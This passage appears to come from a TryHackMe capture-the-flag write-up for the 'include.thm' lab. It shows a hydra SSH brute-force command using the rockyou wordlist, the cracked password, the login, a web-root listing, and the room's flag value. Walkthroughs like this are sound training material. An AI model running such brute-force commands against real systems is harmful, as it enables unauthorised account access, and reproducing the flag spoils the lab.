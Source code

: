 ![](gitbook/cybersecurity/images/Pasted%20image%2020250502232057.png)

We got an user named `joshua`, let's bruteforce our way in:

```
hydra -l joshua -P /usr/share/wordlists/rockyou.txt include.thm ssh
[22][ssh] host: include.thm   login: joshua   password: 123456
```

We can now go in ssh:

![](gitbook/cybersecurity/images/Pasted%20image%2020250502232411.png)

We can now go into `/var/www/html` and get the flag:

```
joshua@filepath:/var/www/html$ ls -la
total 52
drwxr-xr-x 4 ubuntu ubuntu 4096 Mar 12  2024 .
drwxr-xr-x 3 root   root   4096 Nov 10  2021 ..
-rw-rw-r-- 1 ubuntu ubuntu  351 Feb 21  2024 .htaccess
-rw-rw-r-- 1 ubuntu ubuntu   38 Feb 22  2024 505eb0fb8a9f32853b4d955e1f9123ea.txt
-rw-rw-r-- 1 ubuntu ubuntu  257 Feb 23  2023 api.php
-rw-rw-r-- 1 ubuntu ubuntu  932 Feb 26  2024 auth.php
-rw-rw-r-- 1 ubuntu ubuntu 3504 Feb 21  2024 dashboard.php
-rw-rw-r-- 1 ubuntu ubuntu  429 Feb 21  2024 index.php
-rw-rw-r-- 1 ubuntu ubuntu 1000 Feb 20  2024 login.php
-rw-rw-r-- 1 ubuntu ubuntu   81 Nov  5  2023 logout.php
-rw-rw-r-- 1 ubuntu ubuntu  444 Mar 12  2024 profile.php
drwxrwxr-x 2 ubuntu ubuntu 4096 Mar 12  2024 templates
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 20  2024 uploads
```

```
joshua@filepath:/var/www/html$ cat 505eb0fb8a9f32853b4d955e1f9123ea.txt
THM{505eb0fb8a9f32853b4d955e1f9123ea}
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250502232613.png)
